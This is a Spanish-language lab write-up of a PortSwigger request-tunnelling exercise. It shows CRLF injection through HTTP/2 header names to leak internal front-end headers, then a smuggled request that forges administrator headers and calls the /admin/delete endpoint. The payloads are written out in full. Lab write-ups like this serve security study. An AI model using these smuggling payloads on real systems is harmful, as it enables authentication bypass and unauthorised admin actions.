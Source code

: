 This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming header names. To solve the lab, access the admin panel at `/admin` as the `administrator` user and delete the user `carlos`.

The front-end server doesn't reuse the connection to the back-end, so isn't vulnerable to classic request smuggling attacks. However, it is still vulnerable to [request tunnelling](https://portswigger.net/web-security/request-smuggling/advanced/request-tunnelling).

### Metodologia
Sacamos el updaate contetlength y nos aseguramos de que este http2. Agregamos una nueva cabecera para confirmar si es vulnerable a CRLF inyecion,
En la parte de value ponemos todo esto en la cabera
```
foo: bar
Host: eviltrust.net
```
Desde la perspectiva del front-end (HTTP2) aunque inyectemos nuevo body, sigue siendo parte de un header.
```Name
foo: bar
Content-Length: 20

search=
```
```value
qwerty
```
Pero en el momento que este rescribe la solicitud de HTTP2 a HTTP1.1 puede que interprete el doble crlf como un cuepo aparte
Como ya sabemos que search refleja el input, utilizamos el content-legnth para incluir la solicitud y que esta se vea reflejada
```Name
foo: bar
Content-Length: 150

search=
```
De esta forma vemos las cabeceras que agrega el front-end en el momento de la reescritura, "internal header", y podremos reutilizarlas. Al momento de enviar la request, no olvidarse del crlf del final, ya que este hace que los "internal headers" queden separados como una solicitud pendinete, o es directamente descartado como en el caso de "http  desync guardian" visto en [[SEQUEL is always worse 2021]].
```
X-SSL-VERIFIED: 0
X-SSL-CLIENT-CN: null
X-FRONTEND-KEY: 1947272484721117
```
Vamos a interceptar la página raíz, y agregamos 
```Name
foo: bar

GET /admin HTTP/1.1
Host: 0a0800bd03fa3ebd81a44d1900890039.web-security-academy.net
X-SSL-VERIFIED: 1
X-SSL-CLIENT-CN: administrator
X-FRONTEND-KEY: 1947272484721117


```
```Value
whatever
```
El output de la respuesta nos va a dar una pequeña pista, y es que recibe una cantidad de data más pequeña de lo que espera recibir:
"Server Error: Received only 417 of expected 8603 bytes of data"
así que cambiamos a método GET  a HEAD, para obtener el contenido de esto sin importar sus bytes.
Cambiano el path por Login, nos mostrará la url
```name
foo: bar

GET /admin/delete?username=carlos HTTP/1.1
Host: 0a0800bd03fa3ebd81a44d1900890039.web-security-academy.net
X-SSL-VERIFIED: 1
X-SSL-CLIENT-CN: administrator
X-FRONTEND-KEY: 1947272484721117


```
Nos dirá el mismo error de los bytes, pero si volvemos al lab veremos que aparece ya como "solved"